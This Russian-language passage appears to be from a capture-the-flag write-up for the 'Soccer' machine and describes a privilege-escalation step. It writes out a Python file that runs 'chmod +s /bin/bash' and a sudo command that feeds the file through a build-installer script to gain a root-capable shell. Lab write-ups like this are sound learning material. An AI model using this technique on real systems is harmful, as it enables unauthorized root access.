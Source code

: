 Некий скрипт build-installer доступен нам для запуска от sudo. Просмотрим одержимое скрипта.

![](10.png)

![](../assets/Soccer/10.png)

Мы можем заметить, что при использовании флага make и файла с расширением .py скрипт обработает наш файл, используя pyinstaller.

Создадим файл 1.py со следующим содержимым:

```
import os
os.system('chmod +s /bin/bash')
```

Запустим скрипт из директории с нашим файлом.

```
sudo /usr/local/sbin/build-installer.sh make 1.py
```

![](11.png)
